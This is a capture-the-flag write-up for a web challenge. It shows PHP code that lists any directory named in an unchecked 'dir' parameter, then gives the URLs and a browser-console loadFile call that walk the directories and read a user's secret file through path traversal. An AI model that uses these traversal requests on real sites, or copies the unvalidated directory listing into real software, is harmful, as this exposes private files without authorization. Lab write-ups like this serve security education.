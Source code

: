 # Mission 3 ~ page walking


## Goal and instructions

Can you [render](https://web3.chall.necst.it/) the flag of user `Marcie`? Hint: can you retrieve the source code?


## Web app structure

The website is a rendering platform that allows chess pieces to be viewed in detail and realistically from all angles.


## Code overview

The source code for the page was not provided directly, but it can be viewed using the browser's development tools. Once you inspect the page, you can see that there is a `list_model_options` function, which shows the files in a directory.
```php
function list_model_options($directory)
{
    // Open the directory and read its contents
    $dir_handle = opendir($directory);
    while (false !== ($file = readdir($dir_handle))) {
        // Skip current and parent directories
        if ($file == “.” || $file == “..”) {
            continue;
        }
        // Print the file name
        $file_no_ext = str_replace(“.obj”, “”, $file);
        echo “<option value=‘$file_no_ext’>” . $file_no_ext . “</option>”;
    
    }
    // Close the directory handle
    closedir($dir_handle);
}

$dir = $_GET['dir'];
if(isset($dir) && !is_null($dir)){
    list_model_options($dir);
}
```

If you look closely at the code shown above, you will see that you can also view all the directories on the site:
```php
$dir = $_GET['dir'];
if(isset($dir) && !is_null($dir)){
    list_model_options($dir);
}
```
This code checks if the `dir` parameter is set and is not null, and then calls the `list_model_options` function to list the contents of the specified directory.


## Solution

To complete the exploit, you need to follow the following steps:

1. Figure out what site directories are
   ```https
   https://web4.chall.necst.it/listModelOptions.php?dir=./
   ```
   These are the directory of the site:
   - listModelOptions.php
   - s3cr3ts
   - index.php
   - js
   - loadModel.php
     
3. Print the names of all users in the drop-down menu
   ```https
   https://web4.chall.necst.it/index.php?dir=./s3cr3ts
   ```
   ```https
   https://web4.chall.necst.it/index.php?dir=./s3cr3ts/Marcie
   ```
5. Copy the *.txt* file that appears along with all the previously printed names.
   
7. Open the site again and do loadFile of the previously found *.txt* file
   - Add a breakpoint in loadFile function
   - In the console call the function
     ```javascript
     loadFile("../s3cr3ts/Marcie/7ade7249188a95075e8b5b0020a09d72.txt")
     ```

